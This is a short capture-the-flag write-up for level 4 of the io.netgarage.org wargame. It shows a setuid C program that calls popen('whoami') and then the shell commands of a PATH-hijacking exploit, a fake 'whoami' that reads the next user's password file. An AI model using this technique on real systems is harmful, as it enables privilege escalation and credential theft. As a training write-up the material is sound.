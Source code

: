 # io.netgarage.org: level4
Login to the challenge server, run the binary, you know the drill:
```
level4@io:/levels$ ./level04
Welcome level5
level4@io:/levels$
```
Let's take a look at the source:
```C
//writen by bla
#include <stdlib.h>
#include <stdio.h>

int main() {
        char username[1024];
        FILE* f = popen("whoami","r");
        fgets(username, sizeof(username), f);
        printf("Welcome %s", username);

        return 0;
}
```
The program simply runs `whoami`, gets the result, and print's "Welcome 
\<username>". Because it says "Welcome level5", we know this is a setuid 
program.

This vulnerability is simple: we can edit the `PATH` environment variable 
to add our own `whoami` command that prints the pass rather than the current
user:

```
level4@io:/levels$ mkdir /tmp/msimwashere
level4@io:/levels$ echo "cat /home/level5/.pass" > /tmp/msimwashere/whoami
level4@io:/levels$ chmod +x /tmp/msimwashere/whoami
level4@io:/levels$ export PATH=/tmp/msimwashere:$PATH
```

Now our own `whoami` is at the start of the `PATH` environment variable, 
meaning it will be called instead of the real `whoami`:

```
level4@io:/levels$ ./level04
Welcome <REDACTED>
```

And we now have the pass from `/home/level5/.pass`:
And so, level04 is solved.

Happy Hacking!

~MarcoSi